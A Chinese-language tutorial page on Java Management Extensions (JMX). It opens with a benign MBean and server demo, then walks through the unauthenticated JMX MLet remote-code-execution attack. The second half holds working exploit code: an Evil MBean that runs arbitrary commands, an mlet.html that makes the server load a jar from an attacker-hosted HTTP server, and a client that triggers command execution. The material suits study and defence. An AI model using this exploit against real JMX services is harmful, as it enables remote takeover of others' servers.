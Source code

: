 ```yaml
---
comments: true
---
```

# 5 JMX

`JMX`，全称`Java Management Extensions`，用于管理和监控`java`应用程序。

举个例子，我们可以通过`jconsole`监控应用程序的堆内存使用量、线程数、类数，查看某些配置信息，甚至可以动态地修改配置。另外，有时还可以利用`JMX`来进行测试。

基础架构如下：
![alt text](img/jmx.png)

JMX把所有被管理的资源都称为 MBean（Managed Bean），这些MBean全部由MBeanServer管理，如果要访问MBean，可以通过MBeanServer对外提供的访问接口，例如通过RMI或HTTP访问。

通俗的讲，JMX是一个服务器，它能让客户端远程访问该服务器上运行的java程序的api，并且可以对该程序通过相应的函数进行增删改查。
一般运维人员常部署zabbix、cacti和nagios对tomcat、weblogic等服务器进行监控，通常通过JMX访问Tomcat、weblogic的方式实现的，通过JVM的queryMBeans方法查询获取具体的Mbean（Thread、JVM、JDBC），根据bean的属性值判断运行状态。

## JMX demo

!!! tips
    MBean 接口的命名规范："xyzMBean"，其实现类则需要名为: "xyz"。

=== "HelloMbean"

    ```java
    package cc.jmx;

    public interface HelloMBean {
        public String getName();
        public void setName(String newName);
        public String sayHello();
    }
    ```

=== "Hello"

    ```java
    package cc.jmx;

    public class Hello implements HelloMBean{
        private String name = "colemak";

        // getter/setter for the "name" attribute
        public String getName() { return this.name; }
        public void setName(String newName) { this.name = newName; }

        // Methods
        public String sayHello() { return "hello: " + name; }
    }
    ```

=== "JMXServer"

    ```java
    package cc.jmx;

    import javax.management.*;
    import javax.management.remote.JMXConnectorServer;
    import javax.management.remote.JMXConnectorServerFactory;
    import javax.management.remote.JMXServiceURL;
    import java.lang.management.ManagementFactory;
    import java.rmi.registry.LocateRegistry;

    /**
     * Hello world!
     *
     */
    public class jmxserver
    {
        public static void main( String[] args ) throws Exception {

            MBeanServer server = ManagementFactory.getPlatformMBeanServer();
            try {
                // 注册一个MBean
                server.registerMBean(new Hello(), new ObjectName("domain1:key1=val1"));
            }
            catch (InstanceAlreadyExistsException | MBeanRegistrationException | NotCompliantMBeanException | MalformedObjectNameException e) {
                e.printStackTrace();
            }
            // 启用端口用于JMX连接
            LocateRegistry.createRegistry(9999);
            JMXConnectorServer jcs = JMXConnectorServerFactory.newJMXConnectorServer(
                    new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:9999/jmxrmi"),
                    null,
                    server);
            jcs.start();
        }
    }
    ```

启动`JMXServer`，然后使用`jconsole`连接`127.0.0.1:9999`。

![alt text](img/19.png){loading=lazy}

## JMX RMI MLet

!!! tips "利用条件"

    - 允许远程访问，没有开启认证 (com.sun.management.jmxremote.authenticate=false)
    - 能够远程注册 MBean (javax.management.loading.MLet)


攻击者可以通过Mlet的getMbeanFromUrl方法进行远程加载恶意的jar包注册 MBean，使 JMX 服务器调用其中的恶意方法实现攻击。

首先将以下恶意类打包为jar文件

=== "EvilMBean.java"

    ```java
    package cc.jmx;

    public interface EvilMBean {
        public void execmd(String cmd) throws Exception;
    }
    ```

=== "Evil.java"

    ```java
    package cc.jmx;

    public class Evil implements EvilMBean {
        public void execmd(String cmd) throws Exception{
            Process process = Runtime.getRuntime().exec(cmd);
        }
    }
    ```

在相同目录下编写 `mlet.html`

```html
<html>
    <mlet code="cc.jmx.Evil" archive="comp.jar" name="MLetCompromise:name=evil,id=1" codebase="http://127.0.0.1:10001">
    </mlet>
</html>
```

然后启动一个 HTTP 服务，以便 JMX server 访问加载恶意MBean

编写客户端远程向服务器注册MLet，加载运行恶意MBean

```java
package cc.jmx;

import java.lang.management.ManagementFactory;
import java.net.InetAddress;
import java.util.Arrays;
import java.util.HashSet;
import java.util.Iterator;
import java.util.Set;
import javax.management.*;
import javax.management.remote.JMXConnector;
import javax.management.remote.JMXConnectorFactory;
import javax.management.remote.JMXServiceURL;

public class MLetMBeanClient {

    public static void main(String[] args) throws Exception {
        // 连接JMX Server
        JMXServiceURL url = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://127.0.0.1:9999/jmxrmi");
        JMXConnector jmxConnector = JMXConnectorFactory.connect(url);
        MBeanServerConnection mBeanServerConnection = jmxConnector.getMBeanServerConnection();
        ObjectInstance evilBean = null;
        ObjectInstance evil = null;
        Object expResult;
        try{
            // 注册MLet
            evil = mBeanServerConnection.createMBean("javax.management.loading.MLet",null);

            // 从远程加载恶意MBean
            Object loadEvilBean = mBeanServerConnection.invoke(evil.getObjectName(),"getMBeansFromURL",new Object[]{"http://127.0.0.1:10001/mlet.html"},new String[]{String.class.getName()});
            HashSet hashSet = ((HashSet)loadEvilBean);
            Iterator iterator = hashSet.iterator();
            Object theObject = iterator.next();

            evilBean = ((ObjectInstance)theObject);
            System.out.println(evilBean.getObjectName());

            // 调用恶意MBean的execmd方法
            expResult = mBeanServerConnection.invoke(evilBean.getObjectName(),"execmd",new String[]{"calc"},new String[]{String.class.getName()});
        } catch (Exception e) {
            // 若已注册，则直接调用
            ObjectName objectName = new ObjectName("MLetCompromise:name=evil,id=1");
            expResult = mBeanServerConnection.invoke(objectName,"execmd",new String[]{"calc"},new String[]{String.class.getName()});
        }
        System.out.println(expResult);
    }
}
```

测试结果如下
![alt text](img/20.png){loading=lazy}

## 参考资料

- [Jmx Rmi Rce 漏洞利用复现&分析](https://www.cnblogs.com/0x28/p/15685164.html){target=_blank}
- [MBean使用及JMX漏洞复现](https://www.cnblogs.com/muphy/p/13971984.html){target=_blank}